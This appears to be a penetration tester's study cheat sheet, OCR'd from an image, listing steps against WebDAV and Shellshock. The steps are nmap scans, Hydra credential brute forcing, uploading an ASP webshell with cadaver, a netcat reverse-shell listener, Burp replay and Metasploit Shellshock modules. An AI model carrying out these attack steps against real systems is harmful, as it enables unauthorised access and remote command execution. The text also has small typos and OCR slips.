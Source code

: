 # WebDav
NOTE: Will need credentials, webdav implements authentication (username: password) - Brute Force Requred (Hydra/Metasploit)

Is it configured to run on IIS? 
Post gaining legit credentials, upload a malicious asp payload that can be used to execute commands or gain reverse shell

## Scan to see version being ran
nmap -sV -p 80 --script=http-enum TARGET

## Brute Force for Credentials 
Hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt TARGET http-get /webdav/

Davtest -auth user:password -url http://TARGET/webdav

Cadaver http://TARGET/webdav
Add Webshell: put /usr/share/webshells/asp/webshell.asp

# ShellShock
(Scan to check if vulnerable) 

Nmap -sV IP -- script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"

Open Burp Suite

Proxy -> make sure intercept is on 
Send request to repeater

## To gain reverse shell 

Set up Netcat: nc -nvlp 1234

Once connection is established go back to burp suite

Paste IP in burp -> Send -> Get reverse shell

## With Metasploit
search shellshock 

(Scan) auxiliary/scanner/http/apche_mod_cgi_bash_environment Variable Injection (Shellshock) Scanner -> set targeturi to .cgi page 

(Exploit) exploit/multi/http/apache_mod_cgi_bash_environment Variable Code Injection (Shellshock) -> set LHOST
